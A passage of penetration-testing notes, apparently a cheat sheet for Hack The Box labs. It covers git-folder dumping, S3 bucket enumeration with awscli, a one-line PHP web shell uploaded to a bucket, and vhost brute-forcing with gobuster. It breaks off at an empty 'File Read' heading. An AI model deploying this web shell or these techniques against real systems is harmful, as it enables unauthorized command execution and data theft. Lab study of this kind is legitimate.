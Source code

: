     Specifies the policy for SMTP MTA Strict Transport Security (MTA-STS) to enhance email security.
  
- `/.git`

  Hashes of a git folder. To reconstruct it:

  ```bash
  git-dumper [URL] [OUTPUT DIR]
  ```


#### Amazon Buckets

The are different types of subdomains, for example `s3.` are amazon buckets subdomains on the cloud. Always add the subdomains to the `/ets/hosts/` file next to the domain..

Use `awscli` to interact with them. 

To list the buckets:
`aws --endpoint=http://s3.thetoppers.htb s3 ls`

To list the objects inside the buckets just specify the bucket at the end of the previous command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

If php files are shown, it means that the bucket is handling the php page. Thus creating an appropriate php file and coping it in the bucket, will open a shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

## Exploitation

### Proxy

#### Host Misrouting

How to, given a domain, reach other subdomains with the same IP address. Thus, we want to brute force the “etc/hosts” file of the proxy.

After adding the domain to my `/etc/hosts` file:

```bash
gobuster vhost -u http://[DOMAIN] -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

Ignore any 400 Status output, since it means that the proxy refused your request.

### Server-side

#### File Read

Linux:
